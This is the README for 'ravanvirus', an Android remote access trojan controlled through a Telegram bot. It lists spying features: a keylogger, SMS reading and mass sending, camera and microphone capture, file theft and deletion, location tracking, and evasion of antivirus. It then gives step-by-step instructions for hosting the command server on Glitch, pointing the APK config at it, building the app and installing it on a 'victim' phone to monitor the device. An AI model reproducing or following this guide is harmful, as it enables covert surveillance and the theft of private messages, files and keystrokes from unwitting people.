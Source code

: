 # ravanvirus
Panel Screenshot

Features
* 🔴 Real time
* 🌐 custom web view
* 🔔 notification reader
* 🔔 notification sender (send custom notification that apper on target device with custom click link)
* 🗨️ show toast message on target device (Toasts are messages that appear in a box at the bottom of the device)
* 📡 receive information about simcard provider
* 📳 vibrate target device
* 🛰️ receive device location
* ✉️ receive all target message
* ✉️ send sms with target device to any number
* ✉️ send sms with target device to all of his/her contacts
* 👤 recive all target contacts
* 💻 receive list of all installedd apps in target device
* 📁 receive any file or folder from target device
* 📁 delete any file or folder from target device
* 📷 capture main and front camera
* 🎙 capture microphone (with custom duration)
* 📋 receive last clipboard text
* ✅️ auto start after device boot
* 🔐 Keylogger {Availbe in apk v1 and v2}
* ✨ Beautiful telegram bot interface -🤖 Undetectable by antivirus
Requirements
* Glitch Account
* ApkEasy Tool ( For PC ) or ApkTool Editor ( for Android)
NOTE : USE APK V1 AND V2 WITH OLD SERVER CODE
How to use
* Search BotFather on Telegram 

* Creat a bot with any name/username 

* Copy your Bot token 

* Go to glitch.com click
* new project then glitch-hello-node 

* Delete all pre-available files {clcik on 3 dots}
* click on files and upload package.json, server.js 

* Paste your bot token in line 16 {beetwen ''} 

* Paste your chat id in line 15
* (search userinfobot on telegram and send any msg you will
* get your chatid 

* click on previvew availble on bottom
* open in new window 

* if you see this type then copy url and close all tabs 

* now open Apkeditor select apk
* go to following directory 

*  

* paste your glitch url
  { 
  "host": "https://xxxx.glitch.me/", 
  "socket": "wss://xxxx.glitch.me/", 
  "webView": "https://google.com/" 
}
* note: In webview you can add any website
* when victim will open apk given website will be open in apk
* must replace https to wss
* click on save, and go back 

* clcik on smail and wait 3/4 second
* Now build the apk
* and install in any phone 

* now go to BotFather clcik on your botusername
* start your bot
* now you can monitor all device who will install the apk 

❤️Thank you Supporters❤️
